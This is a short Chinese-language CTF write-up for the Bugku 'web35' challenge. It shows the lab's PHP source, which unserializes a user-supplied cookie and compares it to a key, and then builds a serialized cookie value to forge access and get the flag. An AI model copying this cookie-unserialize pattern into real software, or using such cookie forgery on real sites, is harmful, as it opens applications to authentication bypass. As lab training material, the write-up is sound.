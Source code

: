 # web

## web35

1. 登录页面访问，点击却没有反应，查看源代码，`POST`表单没有提交到后台，但是加载了`admin.css`

   ![](img/image-20210613163956707.png)

2. 这里访问一下`admin.css`，有`GET`提示

   ![](img/image-20210613164158837.png)

3. 这里根据提示进行访问，代码审计

   ```php
    <?php
   error_reporting(0);
   $KEY='ctf.bugku.com';
   include_once("flag.php");
   $cookie = $_COOKIE['BUGKU'];
   if(isset($_GET['21017'])){
       show_source(__FILE__);
   }
   //当接收到的cookie反序列化后的值等于$key则输出flag
   elseif (unserialize($cookie) === "$KEY")
   {   
       echo "$flag";
   }
   else {
   ?>
   <html>
   <head>
   <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
   <title>Login</title>
   <link rel="stylesheet" href="admin.css" type="text/css">
   </head>
   <body>
   <br>
   <div class="container" align="center">
     <form method="POST" action="#">
       <p><input name="user" type="text" placeholder="Username"></p>
       <p><input name="password" type="password" placeholder="Password"></p>
       <p><input value="Login" type="button"/></p>
     </form>
   </div>
   </body>
   </html>
   
   <?php
   }
   ?> 
   ```

4. 这里要反序列化构造`cookie`进行提交

   ```php
   #构造序列化cookie值
   <?php
   $cookie='ctf.bugku.com';
   echo(serialize($cookie));
   ?>
   
   #输出
   s:13:"ctf.bugku.com";
   ```

5. 我这里利用`postman`添加cookie头部和值提交

   ![](img/image-20210613170346915.png)

   